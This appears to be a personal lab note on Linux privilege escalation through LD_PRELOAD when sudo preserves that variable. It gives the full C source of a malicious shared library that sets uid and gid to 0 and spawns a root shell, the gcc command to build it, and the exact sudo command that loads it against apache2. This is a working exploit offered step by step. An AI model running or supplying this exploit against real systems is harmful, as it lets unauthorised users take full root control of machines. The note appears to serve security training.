

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>LD_PRELOAD</title>
</head><body>Escilation via LD_PRELOAD 
 
hard. 
 
start with sudo -l and look for an environemtn variable 
 
&quot;env_keep+=LD_PRELOAD 
 
 
 
also know as preloading. This is preloading a user specifi share library before any other library 
We are laoding our lubrary before others. 
expoiteded by creating a malicious library and loading that before others can load. 
 
write a malicious C code. 
 
<b>#include &lt;stdio.h&gt; 
#include &lt;sys/types.h&gt; 
#include &lt;stdlib.h&gt; 
 
void _init() { 
    unsetenv(&quot;LD_PRELOAD&quot;); 
    setgid(0); 
    setuid(0); 
    system(&quot;/bin/bash&quot;); 
</b><b>}</b> 
 
setguid and uid 0 = 0 is root 
 
 
compile the code 
 
<b>gcc -fPIC -shared -o shell.so shell.c -nostartfiles 
 
</b>to run we set the LD_PRELAOD to this code, then run agains anytuhing we can run as root.<b> 
</b><b> 
</b> 
 
 
exit 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: sudo -l 
2. From the output, notice that the LD_PRELOAD environment variable is intact. 
 
Exploitation 
 
1. Open a text editor and type: 
 
#include &lt;stdio.h&gt; 
#include &lt;sys/types.h&gt; 
#include &lt;stdlib.h&gt; 
 
void _init() { 
  unsetenv(&quot;LD_PRELOAD&quot;); 
  setgid(0); 
  setuid(0); 
  system(&quot;/bin/bash&quot;); 
} 
 
2. Save the file as x.c 
3. In command prompt type: 
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles 
4. In command prompt type: 
sudo LD_PRELOAD=/tmp/x.so apache2 
5. In command prompt type: id 
</body></html>